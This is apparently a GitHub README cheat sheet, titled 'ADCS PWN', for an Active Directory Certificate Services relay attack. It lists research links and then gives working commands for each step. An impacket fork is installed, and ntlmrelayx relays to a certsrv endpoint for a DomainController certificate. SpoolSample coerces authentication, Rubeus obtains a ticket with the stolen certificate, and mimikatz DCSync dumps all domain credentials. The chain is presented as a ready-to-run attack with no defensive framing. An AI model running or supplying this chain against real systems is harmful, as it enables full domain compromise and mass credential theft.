 ADCS PWN  
=================  

Info & Links  
https://posts.specterops.io/certified-pre-owned-d95910965cd2
https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf
https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/
https://github.com/leechristensen/SpoolSample
https://github.com/GhostPack/Rubeus

How to

Prep
```
pip3 uninstall impacket
git clone --branch ADCS-PWN https://github.com/LuemmelSec/impacket 
cd impacket
python3 -m pip install .
```

Exploit

On Kali
```
python3 ntlmrelayx.py -t http://10.55.0.2/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

On Domain joined machine
```
.\SpoolSample.exe 10.55.0.1 10.55.0.30
```

On Attacker Windows or whereever we can run Rubeus
```
Rubeus.exe asktgt /user:dc2016$ /ptt /dc:10.55.0.1 /domain:mcafeelab.local /certificate:BASE64 Blob from ntlmrelayx
mimikatz.exe
lsadump::dcsync /domain:mcafeelab.local /all /csv
```
